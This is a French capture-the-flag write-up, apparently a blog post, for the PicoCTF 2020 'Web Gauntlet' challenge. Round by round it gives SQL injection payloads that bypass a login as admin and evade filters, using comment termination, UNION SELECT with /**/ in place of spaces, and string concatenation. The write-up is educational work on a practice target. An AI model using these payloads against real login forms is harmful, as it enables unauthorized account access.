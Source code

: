 ```yaml
---
layout: post
title: PicoCTF 2020 - Bypass de filtres SQL
subtitle: PicoCTF - Web Gauntlet - Web exploitation - SQLi 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [CTF, PicoCTF, Web Gauntlet, Bypass, SQL filters, SQLi, Write-Up]
comments: false
---
```


![Logo](/img/PicoCTF_logo.png){: .center-block :}

Web Gauntlet est un chall d'exploitation web proposé lors de la version 2020 de PicoCTF. Il s'agit d'un challenge plutôt classique où le but est de se loguer en tant qu'admin à l'aide d'injections SQL. Jusque là rien de bien nouveau... L'originalité de Web Gauntlet est toutefois qu'il faudra bypasser des filtres qui sont ajoutés à chaque niveau du chall pour complexifier les SQLi. 

![Description](/img/PicoCTF_1.png){: .center-block :}

![Sign In](/img/PicoCTF_2.png){: .center-block :}

Test avec `admin::admin`

![Test](/img/PicoCTF_3.png){: .center-block :}

`SELECT * FROM users WHERE username='admin' AND password='admin'`

Ref: [PayloadsAllTheThings - SQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Round 1

![Round1](/img/PicoCTF_4.png){: .center-block :}

Pour le ‘Round 1’ on ne peut pas utiliser ‘or’...

**Payload:** 

Username: `admin';-- test` 
Password: `test`

`SELECT * FROM users WHERE username='admin';-- test' AND password='test'`

{: .box-note}
; : ferme la requête
{: .box-note}
-- : ce qui est après est un commentaire

{: .box-warning}
Remarque: Pas d'espace avant l'appel au commentaire sinon bloque car considéré comme white space voir plus bas round 4

![Round1](/img/PicoCTF_5.png){: .center-block :}

## Round 2

![Round2](/img/PicoCTF_6.png){: .center-block :}

**Payload:** 

Username: `admin';` 
Password: `test`

`SELECT * FROM users WHERE username='admin';' AND password='test'`

![Round2](/img/PicoCTF_7.png){: .center-block :}

## Round 3

![Round3](/img/PicoCTF_8.png){: .center-block :}

Ça change rien, on utilise aucun de ces symboles :)

**Payload:**

Username: `admin';`
Password: `test`

SELECT * FROM users WHERE username='admin';' AND password='test'

![Round3](/img/PicoCTF_9.png){: .center-block :}

## Round 4

![Round4](/img/PicoCTF_10.png){: .center-block :}

On ne peut plus utiliser `admin`...

En général le premier utilisateur dans la table est admin

~~~
1 admin password
2 user1 password1
...
~~~

**Payload:**

Username: `bob' UNION SELECT * FROM users LIMIT 1;`
Password: `test`

`SELECT * FROM users WHERE username='bob' UNION SELECT * FROM users LIMIT 1;' AND password='test'`

{: .box-note}
LIMIT 1 limite au premier résultat

Ne fonctionne pas car contient des whitespace :(

on peut utiliser `/**/` à la place des espaces ce qui donne le payload suivant

**Paylod:**

`bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;`   

Ref: 
- [SQL injection bypassing common filters - Portswigger](https://portswigger.net/support/sql-injection-bypassing-common-filters)
- [SQL Injection Bypassing WAF - OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

`SELECT * FROM users WHERE username='bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;' AND password='bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;'`     

![Round4](/img/PicoCTF_11.png){: .center-block :}

## Round 5

![Round5](/img/PicoCTF_12.png){: .center-block :}

'The double-pipe sequence || is a string concatenation operator on Oracle.'

Ref: [SQL injection - Union attacks - Portswigger](https://portswigger.net/web-security/sql-injection/union-attacks)

**Payload:** `adm'||'in';`

![Round5](/img/PicoCTF_13.png){: .center-block :}

**Poursuivez avec :** 

[- VulnHub - BossPlayersCTF](https://0xss0rz.github.io/2020-11-16-Vulnhub-BossPLayersCTF/)

[- Hack The Box - Cache](https://0xss0rz.github.io/2020-11-18-HTB-Cache/)

[- PicoCTF 2018 - Web Application](https://0xss0rz.github.io/2019-08-24-picoCTF-Web-Application-Write-Ups/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
